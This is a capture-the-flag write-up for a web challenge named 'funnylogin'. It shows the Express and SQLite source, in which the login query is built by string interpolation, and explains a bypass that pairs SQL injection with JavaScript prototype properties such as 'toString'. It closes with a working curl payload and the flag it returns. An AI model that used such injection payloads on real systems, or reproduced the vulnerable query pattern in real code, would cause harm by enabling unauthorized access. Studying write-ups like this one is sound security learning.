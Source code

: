We are given a Node.js project with a single app.js file:
```
const express = require('express');
const crypto = require('crypto');

const app = express();

const db = require('better-sqlite3')('db.sqlite3');
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT
);`);

const FLAG = process.env.FLAG || "dice{test_flag}";
const PORT = process.env.PORT || 3000;

const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));  
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
    const { user, pass } = req.body;

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
});

app.listen(PORT, () => console.log(`web/funnylogin listening on port ${PORT}`));
```


<b>Source code analysis</b>

In this challenge, the server creates 100000 random users and passwords and stores them in a users array and in a SQLite database:
```
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));  
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);
```
Next, it chooses one of the users at random and makes it administrator:
```
const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];  
isAdmin[newAdmin.user] = true;
```
There is only one endpoint at /api/login (POST). We are asked to log in using username and password (user and pass in the request body).

There is a clear SQL injection vulnerability here:

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`; 

However, we need to pass this if statement in order to get the flag:

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));  
        }

<b>Exploitation</b>

Notice that the id variable comes from the SQL query, whereas the user comes from the request body. Using the SQLi, we are able to make SQLite return some id (notice that we don’t know any of the users and passwords).

However, we don’t know any of the names in the database, how are we going to know the exact name of the administrator? Well, JavaScript is very lax, and there are many values that will evaluate to true inside an if statement. For instance, functions:

```
> eval
[Function: eval]
> Boolean(eval)
true
```

So, we can do the following:

```
> const isAdmin = {}
undefined
> isAdmin['asdf'] = true #Bracket notation is used to access an object property.
true
> isAdmin.
isAdmin.__proto__             isAdmin.constructor           isAdmin.hasOwnProperty        isAdmin.isPrototypeOf         isAdmin.propertyIsEnumerable  
isAdmin.toLocaleString        isAdmin.toString              isAdmin.valueOf

isAdmin.asdf
```
As can be seen, if we hit TAB we will see some recommended values to continue the expression isAdmin. As a result, we get some functions that can be execute by an object in JavaScript. Plus, we can access them as object attributes:
```
> isAdmin['toString']
[Function: toString]
> Boolean(isAdmin['toString'])  
true
```
To sum up, we need to use the SQLi to make the query return any value and then use any of the object default functions to make isAdmin[user] evaluate to true.
Flag

The following payload will do the trick:
```
$ curl https://funnylogin.mc.ax/api/login -d "user=toString&pass='+UNION+SELECT+1--+-"  
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
```

Docs to understand how this works: https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Object_prototypes

